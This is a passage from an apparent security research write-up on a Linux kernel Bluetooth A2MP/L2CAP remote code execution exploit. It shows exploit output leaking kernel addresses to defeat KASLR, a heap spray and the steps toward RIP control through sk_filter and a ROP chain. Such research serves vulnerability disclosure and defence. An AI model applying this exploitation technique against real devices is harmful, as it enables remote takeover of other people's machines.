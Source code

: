 Both MTU limitations are easy to bypass. Namely, we can bypass the ACL MTU by fragmenting the request into multiple L2CAP packets, and we can bypass the A2MP MTU by sending a `L2CAP_CONF_MTU` response and configuring it to 0xffff bytes. Here again, it is unclear why the Bluetooth specification does not explicitly disallow parsing configuration responses if no request has been sent.

Let’s try out the technique:

```
$ gcc -o exploit exploit.c -lbluetooth && sudo ./exploit XX:XX:XX:XX:XX:XX
[*] Opening hci device...
[*] Connecting to victim...
[+] HCI handle: 100
[*] Connecting A2MP channel...
[*] Leaking A2MP kernel stack memory...
[+] Kernel address: ffffffffad2001a4
[+] KASLR offset: 2b600000
[*] Preparing to leak l2cap_chan address...
[*] Leaking A2MP kernel stack memory...
[+] l2cap_chan address: ffff98ee5c62fc00
[*] Spraying kmalloc-1024...
```

Notice how the most significant bytes of both leaked pointers differ. By observing the higher bytes, we can make an educated guess (or check the Linux documentation) to determine whether they belong to a segment, heap, or stack. To confirm that we were indeed able to reclaim the address of `struct l2cap_chan`, we can inspect the memory on the victim’s machine using:

```
$ sudo gdb /boot/vmlinuz /proc/kcore
(gdb) x/40gx 0xffff98ee5c62fc00
0xffff98ee5c62fc00:	0x4141414141414141	0x4242424242424242
0xffff98ee5c62fc10:	0x4343434343434343	0x4444444444444444
0xffff98ee5c62fc20:	0x4545454545454545	0x4646464646464646
0xffff98ee5c62fc30:	0x4747474747474747	0x4848484848484848
...
0xffff98ee5c62fd00:	0x6161616161616161	0x6262626262626262
0xffff98ee5c62fd10:	0x6363636363636363	0x6464646464646464
0xffff98ee5c62fd20:	0x6565656565656565	0x6666666666666666
0xffff98ee5c62fd30:	0x6767676767676767	0x6868686868686868
```

The memory content looks very promising! Note that it is useful to spray with a pattern, since that allows us to recognize memory blocks immediately and understand which offsets get dereferenced when a panic is hit.

#### Plugging It All Together

We now have all primitives we need to complete our RCE:

1. We can control a memory block whose address we know (referred to as the “payload”).
2. We can leak a .text segment pointer and build a ROP chain which we can store in the payload.
3. We can take full control over the `sk_filter` field and point it to our payload.

**Achieving RIP Control**

Let’s take a look back at `sk_filter_trim_cap()`, and understand why having control over `sk_filter` is beneficial.
